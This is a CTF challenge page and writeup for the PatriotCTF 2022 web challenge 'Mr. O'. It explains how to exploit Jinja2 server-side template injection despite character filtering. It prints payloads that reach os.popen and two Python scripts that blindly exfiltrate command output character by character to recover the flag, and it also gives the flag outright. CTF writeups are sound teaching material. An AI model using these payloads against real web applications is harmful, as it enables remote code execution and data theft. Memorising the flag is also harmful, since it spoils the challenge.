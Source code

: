 # Mr. O

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Mr%20O/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get view the admin.html page, I will give you a flag. 

Hacked again, so I am now filtering those special words and characters, but I won't tell you what they are so you can't find out how I was hacked. I will give you guys a couple characters back because I got some complaints about going overboard with it, especially about not being able to use a period on a messaging service.

p.s. to save you some time, don't try getting a reverse shell

### Difficulty
Hard

### Flag
`PCTF{chri5_bumst34d_i5_100king_thicc}`

### Hints
1. template injection
2. command execution
3. blind read w/ comparison to leak output

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is alos vulnerable to template injection, but `{{` and `}}` is filtered, so we can't use the same method. Jinja has support for if statement templates that look like this: `{% if 'test' == 'test' %} render this string if true {% endif %}`. Let's see what happens when we send this message:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/jinja_if.png" width=40%  height=40%></p>

Since Python is an OOP language, we can Method Resolution Order (MRO) to traverse across classes to a method we want, such as `os.popen`. Read more about this here: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/. The following payload makes use of this to run the `ls` command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read() == 'test' %} a {% endif %}`

The problem is that we won't see the output. Instead of `ls`, you could just put a reverse shell and that'd be it, but I removed netcat from the docker and filtered basically any other useful special character so people can't do this.

We can instead do a blind test for the output of the command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}`

If we put any character in `x`, then we can test if the output of the `ls` command starts with that character by checking if we see `found` returned back to us. Let's run this with the letter "D": `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('D') %} found {% endif %}`
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_found.png" width=40%  height=40%></p>

I chose "D" because `Dockerfile` is the first file in the docker. We just need to script this so we can see the whole output of `ls`. Once we have that, we can try to find the path to the `/admin.html` page so we can read the flag.

Here is the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000" # replace this with the actual IP of the docker

def get_cookie():
    data = {
        "username": "test", # make sure to make a test:test user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = ""
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_ls.png" width=40%  height=40%></p>

We see the directory strucutre. We can keep running this until we find the /admin.html file, but I'll skip that. I use a basic flask directory structure, so it is located in `/app/templates/admin.html`. Now let's read the file. There is a lot of HTML fluff that would make the process take forever, so we can speed it up by grepping for `Flag` first. Here's the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = "Flag: PCTF{"
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/underground_flag.png" width=40%  height=40%></p>
